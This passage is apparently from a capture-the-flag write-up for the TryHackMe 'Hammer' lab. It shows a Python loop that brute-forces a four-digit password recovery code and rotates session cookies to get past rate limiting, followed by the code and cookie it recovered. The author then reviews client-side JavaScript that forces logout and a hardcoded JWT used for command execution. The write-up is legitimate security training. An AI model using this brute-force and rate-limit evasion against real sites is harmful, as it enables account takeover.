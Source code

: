 ```python
def main():
    phpsessid = get_phpsessid()
    if not phpsessid:
        print("Failed to retrieve initial PHPSESSID.")
        return
	# Rotate session every 7 guesses
    for i in range(10000):
        if i % 7 == 0:
            phpsessid = get_phpsessid()
            if not phpsessid:
                print(f"Failed to get PHPSESSID at attempt {i}.")
                continue

        recovery_code = f"{i:04d}"
        print(f"Trying {recovery_code} with PHPSESSID={phpsessid}")
        response_text = submit_recovery_code(phpsessid, recovery_code)

        if "Invalid or expired recovery code!" not in response_text \
           and "Time elapsed" not in response_text \
           and "Rate limit exceeded" not in response_text:
            print(f"Found recovery code: {recovery_code}")
            print(f"PHPSESSID: {phpsessid}")
            print(response_text)
            break

if __name__ == "__main__":
    main()
```
After some time I get:
```shell
Found recovery code: 1146  
PHPSESSID: tdj764kc51sj9u78e0b1dhdcgq
```

I enter this cookie and refresh the page. I am now able to reset the password for `tester@hammer.thm`.

Im able to login but after some time I am logged out. I quickly open the source code for the page so I can look at it longer. 

The page contains a script that checks the cookies after some time and if `persistentSession` is not set to true you are logged out. 
```javascript
 function getCookie(name) {
     const value = `; ${document.cookie}`;
     const parts = value.split(`; ${name}=`);
     if (parts.length === 2) return parts.pop().split(';').shift();
 }
 function checkTrailUserCookie() {
     const trailUser = getCookie('persistentSession');
     if (!trailUser) {

         window.location.href = 'logout.php';
     }
 }
 setInterval(checkTrailUserCookie, 1000);
```

Also a script that contains a hardcoded jwt and makes an AJAX POST request to `/execute_command.php`. It either displays the results of the command or an error:
```javascript
$(document).ready(function() {
    $('#submitCommand').click(function() {
        var command = $('#command').val();
```